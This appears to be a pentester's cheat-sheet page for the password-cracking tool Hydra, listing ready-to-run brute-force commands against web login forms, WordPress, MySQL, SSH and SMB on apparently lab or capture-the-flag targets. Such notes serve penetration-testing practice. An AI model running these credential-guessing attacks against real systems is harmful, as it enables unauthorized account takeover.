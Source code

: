 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - HashesAndEncryption
  - Tooling
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

# Commands

* `hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"`

## WordPress

* `hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I`

## SQL

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## SSH

* `hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh`
* `hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh`

# SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```